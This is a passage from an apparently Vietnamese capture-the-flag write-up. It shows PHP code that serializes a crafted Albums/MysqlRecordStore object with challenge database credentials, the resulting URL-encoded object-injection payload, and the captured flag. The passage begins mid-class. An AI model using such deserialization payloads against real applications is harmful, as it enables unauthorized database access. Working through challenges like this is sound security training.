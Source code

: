 ```php
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
}

$a = new Albums(new MysqlRecordStore('mysql', 'user', 'j90dsgjdjds09djvupx', 'challenge', 'flag'));
$b = urlencode(serialize($a));
echo $b;

?>
// O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A16%3A%22MysqlRecordStore%22%3A6%3A%7Bs%3A24%3A%22%00MysqlRecordStore%00mysqli%22%3BN%3Bs%3A23%3A%22%00MysqlRecordStore%00table%22%3Bs%3A4%3A%22flag%22%3Bs%3A22%3A%22%00MysqlRecordStore%00host%22%3Bs%3A5%3A%22mysql%22%3Bs%3A22%3A%22%00MysqlRecordStore%00user%22%3Bs%3A4%3A%22user%22%3Bs%3A22%3A%22%00MysqlRecordStore%00pass%22%3Bs%3A19%3A%22j90dsgjdjds09djvupx%22%3Bs%3A20%3A%22%00MysqlRecordStore%00db%22%3Bs%3A9%3A%22challenge%22%3B%7D%7D
```

Gửi request và mình có flag

![image-20230524174243174](./assets/image-20230524174243174.png)

`Flag: grey{l4_mu5iCA_DE_haIry_FroG}`
